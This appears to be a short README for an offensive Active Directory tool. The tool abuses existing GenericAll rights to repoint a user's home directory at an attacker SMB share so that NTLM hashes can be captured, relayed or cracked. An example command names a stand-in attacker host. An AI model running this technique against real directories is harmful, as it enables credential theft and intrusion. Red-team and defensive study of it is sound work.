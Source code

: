 BOF (*x64 only*) - *Home Directory* path modification via LDAP 

**Description**: leverage existing 'GenericAll' AD rights over an object (ie:) user
             to set their profile to an attacker smb server (ie:) ntlmrelayx to dump hashes, 
             relay, or crack.

**Usage**: home_mod \<username\> \<drive letter\> \<attacker share\>

**Example**: home_mod jblogg N \\\\attackerip\\bogus_share
